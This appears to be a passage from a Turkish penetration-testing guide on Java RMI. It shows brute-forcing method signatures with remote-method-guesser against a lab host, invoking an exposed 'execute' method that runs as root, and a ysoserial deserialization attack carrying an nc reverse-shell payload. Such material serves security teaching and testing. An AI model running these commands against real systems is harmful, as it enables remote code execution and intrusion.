 Enumeration sırasında hiçbir zafiyet tespit edilmediğinde bile, mevcut _RMI_ hizmetleri hala tehlikeli işlevler açığa çıkarabilir. Dahası, _RMI_ iletişimi _RMI_ varsayılan bileşenlerine karşı deserialization filtreleriyle korunmasına rağmen, özel _RMI_ hizmetleriyle konuşurken bu filtreler genellikle mevcut değildir. Bu nedenle, _RMI_ hizmetlerindeki geçerli yöntem imzalarını bilmek değerlidir.

Ne yazık ki, _Java RMI_ uzak nesnelerdeki yöntemleri listelemeyi desteklememektedir. Bununla birlikte, [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) veya [rmiscout](https://github.com/BishopFox/rmiscout) gibi araçlarla yöntem imzalarını bruteforce etmek mümkündür:
```
$ rmg guess 172.17.0.2 9010
[+] Reading method candidates from internal wordlist rmg.txt
[+] 	752 methods were successfully parsed.
[+] Reading method candidates from internal wordlist rmiscout.txt
[+] 	2550 methods were successfully parsed.
[+]
[+] Starting Method Guessing on 3281 method signature(s).
[+]
[+] 	MethodGuesser is running:
[+] 		--------------------------------
[+] 		[ plain-server2  ] HIT! Method with signature String execute(String dummy) exists!
[+] 		[ plain-server2  ] HIT! Method with signature String system(String dummy, String[] dummy2) exists!
[+] 		[ legacy-service ] HIT! Method with signature void logMessage(int dummy1, String dummy2) exists!
[+] 		[ legacy-service ] HIT! Method with signature void releaseRecord(int recordID, String tableName, Integer remoteHashCode) exists!
[+] 		[ legacy-service ] HIT! Method with signature String login(java.util.HashMap dummy1) exists!
[+] 		[6562 / 6562] [#####################################] 100%
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- plain-server2 == plain-server
[+] 		--> String execute(String dummy)
[+] 		--> String system(String dummy, String[] dummy2)
[+] 	- legacy-service
[+] 		--> void logMessage(int dummy1, String dummy2)
[+] 		--> void releaseRecord(int recordID, String tableName, Integer remoteHashCode)
[+] 		--> String login(java.util.HashMap dummy1)
```
Belirlenen yöntemler şu şekilde çağrılabilir:
```
$ rmg call 172.17.0.2 9010 '"id"' --bound-name plain-server --signature "String execute(String dummy)" --plugin GenericPrint.jar
[+] uid=0(root) gid=0(root) groups=0(root)
```
Ya da deserialization saldırıları şu şekilde gerçekleştirebilirsiniz:
```
$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --bound-name plain-server --signature "String execute(String dummy)"
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.String on position 0
[+] 	Specified method signature is String execute(String dummy)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize canary class 6ac727def61a4800a09987c24352d7ea.
[+] 	Deserialization attack probably worked :)

$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
```